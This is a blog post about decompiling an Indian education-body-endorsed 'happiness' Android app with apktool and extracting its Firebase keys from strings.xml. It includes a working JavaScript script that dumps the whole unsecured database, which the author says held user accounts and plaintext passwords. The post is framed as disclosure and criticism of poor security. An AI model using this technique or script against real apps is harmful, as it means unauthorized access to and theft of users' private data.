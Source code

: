 [](ujjujjuj)
[](https://ujwl.in)
[](2023-02-04)

# Hacking AICTE's "Happiness App"

A few months back, my college sent every student an email asking us to download an app called _YOL - YourOneLife_ which claims to be approved by AICTE. For those of you who don't know, AICTE stands for the All India Council for Technical Education. I don't exactly know what this council does but it comes under the Indian ministry of education so it must be something serious.
<br />
<br />
This app claims to have an _inbuilt AI_ that will assess each institute's happiness index. 😱

> Students will have an opportunity to earn NFTs on the app. Students can redeem these NFTs after 6 months for various goodies and vouchers and even trade them for value.

All of this looks pretty shady. They're every buzzword that exists to market your app. This motivated me to dig deep into what this application actually does, so I decided to download and check it out myself.

## First Look

As it turns out, the app is garbage. The text isn't even visible because its color is the same as the background color. I can't even figure out what to do to log in. Other people were also facing the same issue as evident from the Play Store reviews of this app.

I don't think I'll be able to check out this app in the _conventional_ way, so I decided to reverse-engineer it.

## Reverse Engineering the App

I decided to use [Apktool](https://ibotpeaches.github.io/Apktool/) to decompile the app. Apktool is a tool to reverse engineer 3rd party closed-source android apps. To be clear, it is not illegal to decompile an application. After downloading the APK file of the app, decompiling it was very easy

```plaintext
$ apktool d com.yol.apk

I: Using Apktool 2.6.1 on com.yol.apk
I: Loading resource table...
I: Decoding AndroidManifest.xml with resources...
I: Loading resource table from file: /home/ujjujjuj/.local/share/apktool/framework/1.apk
I: Regular manifest package...
I: Decoding file-resources...
I: Decoding values */* XMLs...
I: Baksmaling classes.dex...
I: Baksmaling classes2.dex...
I: Copying assets and libs...
I: Copying unknown files...
I: Copying original files...
```

The first file I went looking for is called _strings.xml_. It is where the app developer stores hardcoded strings - including database URLs, API keys, and other interesting stuff. This file had a database URL and Google API keys inside it.

```xml
<string name="firebase_database_url">https://XXXXX.firebaseio.com</string>
<string name="google_api_key">XXXXX</string>
<string name="google_app_id">XXXXX</string>
<string name="project_id">XXXXX</string>
<string name="google_storage_bucket">XXXXX.appspot.com</string>
```

It is common for apps that use Firebase to store their keys in here. Some inexperienced developers forget to secure their firebase database by not setting up proper access permissions which could very well be the case here, so I decided to access Firebase using these keys.
<br />
<br />
I wrote a script in JS to do just that

```js
import { initializeApp } from "firebase/app";
import { getDatabase, ref, onValue } from "firebase/database";
import fs from "fs";

const firebaseConfig = {
  apiKey: "XXXXX",
  authDomain: "XXXXX.firebaseapp.com",
  databaseURL: "https://XXXXX.firebaseio.com",
  projectId: "XXXXX",
  storageBucket: "XXXXX.appspot.com",
};

const app = initializeApp(firebaseConfig);
const database = getDatabase(app);
const dbRef = ref(database);
onValue(dbRef, (ss) => {
  console.log("downloaded snapshot");
  fs.writeFile("data.json", JSON.stringify(ss.val(), null, 4), "utf8", () => {
    console.log("saved");
    process.exit();
  });
});
```

And guess what, my suspicion was correct. The database was not configured properly and I was able to download all the data. I was able to download about 38MB of JSON data which contained user account data and posts. To my surprise, the user passwords were in **plaintext** and not hashed. This clearly showed that the application developer had no idea about security, or just had no regard for the safety of the users. 

## Conclusion

This is an easily preventable vulnerability. All you have to do is read the [firebase docs](https://firebase.google.com/docs/firestore/solutions/role-based-access) about database rules. AICTE should re-evaluate its approval procedure to not allow such low-quality apps to pass.
